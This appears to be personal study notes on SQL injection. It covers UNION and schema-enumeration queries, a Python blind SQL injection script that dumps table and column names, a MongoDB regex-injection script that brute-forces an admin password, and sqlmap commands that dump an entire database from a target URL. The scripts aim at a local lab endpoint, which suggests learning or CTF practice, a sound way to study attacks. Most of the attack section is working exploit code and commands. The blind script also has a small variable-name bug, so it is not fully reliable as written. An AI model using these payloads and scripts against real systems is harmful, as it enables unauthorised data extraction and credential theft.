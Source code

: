 # SQL Injection
## 1. SQL
### 1.1. Overview
- syntax to comment: `--`, `/* */`, ...
- union: 
```
SELECT column_name(s) FROM table1 -> clause 1
UNION
SELECT column_name(s) FROM table2 -> clause 2
```
-> when clause 1 fail, will execute clause 2
- group_concat: string concatenation

### 1.2. Sqlite
- `select sql from sqlite_master`
-> show schema

### 1.3. Mysql
- `select table_name from information_schema.tables where table_schema=database()`
-> show name of tables
- `select column_name from information_schema.columns where table_name=table_name`
-> show columns name of that table

### 1.4. Cheetsheet 
`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection`

## 2. Attack
### 2.1. SQL injection boolean
- injection to query to bypass 

### 2.2. SQL injection blind
- base on response as like as error, timeout to collect data
example:
```
import requests, string

characters = string.printable
s = requests.session()

target = "http://0.0.0.0/api/sqliBlind"

def get_one_char(payload):
    for c in characters:
        response = s.post(target,json = {
            'username' : f"a' or ({payload})={ord(c)}  -- -",
            'password' : 'foo'
            }).json()
        if response['data'] == True:
            return c
    return None

def dump_tables():
    tables = ""
    payload = "select ascii(mid(group_concat(table_name),{index},1)) from information_schema.tables where table_schema=database()"
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        tables, index = table + c , index + 1
        print('[+] table = ',tables)
        c = get_one_char(payload.format(index=index))
    return tables

def dump_columns(table_name):
    columns = ""
    payload = "select ascii(mid(group_concat(column_name),{index},1)) from information_schema.columns where table_name='%s'"%(table_name)
    index = 1
    c = get_one_char(payload.format(index=index))
    while c != None:
        columns, index = columns + c, index + 1 
        c = get_one_char(payload.format(index=index))
    return columns

table = dump_tables()

print('\n-----------\n[*] tables found: ', table)

for t in table.split(','):
    print(f'[*] columns of {t} found: ',dump_columns(t))
```

### 2.3. Nosql injection
```
import requests, string
req = requests.session()
arr = string.digits + string.ascii_letters + "_@{}-/()!\"$%=^[]:;"

def blind(data):
    for char in arr:
        res = req.post('http://0.0.0.0/api/sqliMongo',json={'username':'admin','password':{"$regex": f"^{data}{char}"}}).json()
        if res['data']:
            return char
    return None        

def dump_data():
    data = '' 
    while True:
        char = blind(data)
        if char == "$":
            return data 
        data += char 
        print('[+] password: = ',data)

def detect_sqli():
    res = req.post('http://0.0.0.0/api/sqliMongo',json={'username': {"$ne" : 'a'},'password':  {"$ne" : 'a'} }).json()
    print(res)

print('[+] password found : ',dump_data())

```
### 2.4. Tool sqlmap
- install: `brew install sqlmap`
- use: `sqlmap -u url_victim --batch --current-db` -> get name of database
- use: `sqlmap -u url_victim --batch -D name_db --dump-all ` -> show all data of that database
(`can use file_request to dynamic scan`)